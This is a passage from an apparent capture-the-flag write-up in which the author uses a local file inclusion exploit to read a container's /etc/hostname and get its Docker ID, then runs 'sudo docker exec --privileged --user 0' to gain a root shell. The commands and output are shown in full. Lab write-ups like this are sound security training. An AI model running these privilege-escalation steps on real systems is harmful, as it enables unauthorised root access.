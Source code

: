 Since we need the Docker container id in order to use `sudo docker exec` we need to find a way to obtain it without using any Docker commands (since we don’t have the permission to do so). Whilst browsing the [docker docs](https://docs.docker.com/engine/reference/commandline/container_create/) I found a --hostname flag that can be used when creating Docker containers. This got me curious as to what the default hostname of a Docker container is set to (without specifying a hostname).
```
a container's hostname defaults to be the container's ID in Docker.
```

Since we have an LFI we can get the hostname of the Docker container.
```
┌──(kali㉿kali)-[~]
└─$ python3 exploit.py -H <http://10.10.88.246:3000>                                                                                    
Read file > /etc/hostname
e6ff5b1cbc85
```

Now we can become root: [Link](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation).
```
boris@ip-10-10-10-11:~$ sudo docker exec -it e6ff5b1cbc85 /bin/bash
bash-5.1$ id
uid=472(grafana) gid=0(root) groups=0(root)
```

Since our uid is still that of the Grafana user we have to get back to the drawing board.
```
boris@ip-10-10-10-11:~$ docker exec --help

Usage:  docker exec [OPTIONS] CONTAINER COMMAND [ARG...]

Run a command in a running container

Options:
  -d, --detach               Detached mode: run command in the background
      --detach-keys string   Override the key sequence for detaching a container
  -e, --env list             Set environment variables
      --env-file list        Read in a file of environment variables
  -i, --interactive          Keep STDIN open even if not attached
      --privileged           Give extended privileges to the command
  -t, --tty                  Allocate a pseudo-TTY
  -u, --user string          Username or UID (format: <name|uid>[:<group|gid>])
  -w, --workdir string       Working directory inside the container
```

Docker exec has a —privileged and —user flag which we can use. Since the uid of the root user is always 0 we can craft our new payload.
```
boris@ip-10-10-10-11:~$ sudo docker exec -it --privileged --user 0 e6ff5b1cbc85 /bin/bash
bash-5.1# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```
